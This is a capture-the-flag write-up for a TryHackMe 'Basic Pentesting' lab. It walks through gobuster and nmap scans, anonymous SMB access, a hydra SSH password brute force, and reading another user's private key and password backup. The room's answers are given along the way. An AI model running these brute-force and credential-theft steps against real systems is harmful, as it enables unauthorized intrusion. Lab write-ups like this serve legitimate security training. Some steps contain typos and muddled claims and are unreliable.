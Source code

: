 # [Basic Pentesting - THM](https://tryhackme.com/room/basicpentestingjt)

In these set of tasks you'll learn the following:

**Brute forcing** 

**Hash cracking**

**Service enumeration**

**Linux Enumeration**

The main goal here is to learn as much as possible. Make sure you are connected to our network using your OpenVPN configuration file.

---------------

# Scanning Steps :

## STEP 1 :

**NO Robots.txt FOUND**

Checking Source Code

```html

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->
```

**Check our dev note** There is a **hidden** path.


## STEP 2 :

Scanning Paths

```bash
gobuster -u $IP -w x.txt
```
Gobuster output

```bash
2022/02/23 16:18:09 Starting gobuster
=====================================================
/development (Status: 301)
```


1) What is the name of the hidden directory on the web server(enter name without /)?

**development**

Found txt files :

```html
	Parent Directory	 	- 	 
[TXT]	dev.txt	2018-04-23 14:52 	483 	 
[TXT]	j.txt
```

**dev.txt** Contains **Sensitive information**

```text
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

**SMB** - **APACHE** - **REST** - **VERSION 2.5.12**


## STEP 2 :

Scanning Open Ports

```bash
nmap -sV -sC $IP
```

Nmap output

```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2022-02-23T10:07:53-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-02-23T15:07:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.39 seconds
```

There is **SMB** Open for **Guest** / **Anonymous**

```bash
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

---------

# Exploiting Steps :

## STEP 1 :

Trying to connect to **SMBCLIENT** as **Anonymous**

```bash
smbclient \\\\10.10.76.147\\anonymous

smb: \> ls
  .                                   D        0  Thu Apr 19 18:31:20 2018
  ..                                  D        0  Thu Apr 19 18:13:06 2018
  staff.txt                           N      173  Thu Apr 19 18:29:55 2018

```

Found **staff.txt** contains username **jan**

```bash
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
```

## STEP 2 :

**BruteForcing** the **SSH** with username **jan** as we now in **staff.txt** file he uses a **weak password**

```bash
hydra -f -l jan -P rockyou.txt ssh://$IP

[22][ssh] host: 10.10.76.147   login: jan   password: armando
```
2) What is the password? 

**armando**

## STEP 3 :

3) What service do you use to access the server(answer in abbreviation in all caps)?

**SSH**


Connecting to **SSH**

```bash
ssh jan@10.10.76.147
$ cd home/kay
$ ls -la
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
```


3) What is the name of the other user you found(all lower case)?

**kay**

## STEP 4 :

Accessing **.ssh**

```bash
$ cd .ssh
$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

**id_rsa** is private key for **kay**

**id_rsa.pub** contains **md5-password** & new user **jackob**

## STEP 5 :

Connecting with **rsa** and **password**

```bash
ssh -i rsa_id kan@$IP

$ cat pass.bak
```

**FOUND THE PASSWORD**
